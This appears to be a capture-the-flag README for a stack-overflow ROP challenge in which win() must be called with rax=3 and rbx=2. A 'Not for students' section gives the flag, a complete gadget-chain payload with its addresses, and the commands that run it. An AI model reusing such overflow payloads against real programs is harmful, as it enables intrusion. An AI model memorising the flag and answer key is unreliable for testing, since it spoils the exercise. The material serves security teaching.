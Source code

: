 # Writeup

This is a Return-Oriented Programming Challenge (ROP) in assemply. The goal is to execute the function `win()`, while putting the value "3" in rax, and the value "2" in rbx.
For this challenge, you are provided with a binary called "rop" where the challenge takes place, and an auxiliary binary called "hex2raw" which converts a hex string to raw bytes. Credit goes to the creators of the CMU attack lab for the creation of the hex2raw binary.

The binary was compiled as follows: gcc -o rop rop.c -fno-stack-protector -no-pie -z execstack

Notice there is no stack protection, so we can overwrite the return address of the function `bof()` with the address of `win()`. However, we need to put the values "3" and "2" in rax and rbx respectively, so we need to find a way to do that.

hex2raw takes a .txt file, and converts it to raw bytes. The file should be in individual hex bytes separated by spaces.
For example, proper formating of an input file "test.txt" could be:
```
48 89 e5 48 83 ec 10 48 8d 3d 00 00 00 00 48 8d
35 00 00 00 00 48 89 c7 48 89 d8 48 89 f9 48 89
da 48 89 fb 48 89 fc 48 89 fd 48 89 fe 48 89 ff
48 89 c6 b0 03 48 89 df b0 02 0f 05
```

The size of the buffer to be overflowed is 40 bytes.

gdb is your best friend in the entire world for this challenge. You can use it to disassemble the binary, and find the addresses of the gadgets you need.

If you try to cheat, say by artifically injecting values into the registers with gdb and skipping some checks, your flag will not be the correct one, so be careful.

Good luck!

# Not for students:

The flag is: CTF_SDaT{AW3s0m3_J0b_0n_th3_Ch4113ng3}

The challenge is solved by producing an input string that will overwrite the return address of the function `bof()` with the address of `win()`, and also put the values "3" and "2" in rax and rbx respectively.

To do so, we create an input file "input.txt" with the following content:
```
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
4c 14 40 00 00 00 00 00 
03 00 00 00 00 00 00 00 
14 15 40 00 00 00 00 00 
02 00 00 00 00 00 00 00 
96 11 40 00 00 00 00 00 

```

Where the first 40 bytes are filler, the next 8 bytes are the address of a gadget that pops rax, the next 8 bytes are the value "3", the next 8 bytes are the address of a gadget that pops rbx, the next 8 bytes are the value "2", and the last 8 bytes are the address of `win()`.

The address of the gadget that pops rax is 0x0040144c, and the address of the gadget that pops rbx is 0x00401514.

The address of `win()` is 0x00401196.

The input file is then converted to raw bytes with the following command:
```
./hex2raw < input.txt > raw.txt
```

The raw bytes are then piped into the binary with the following command:
```
./rop raw.txt
```
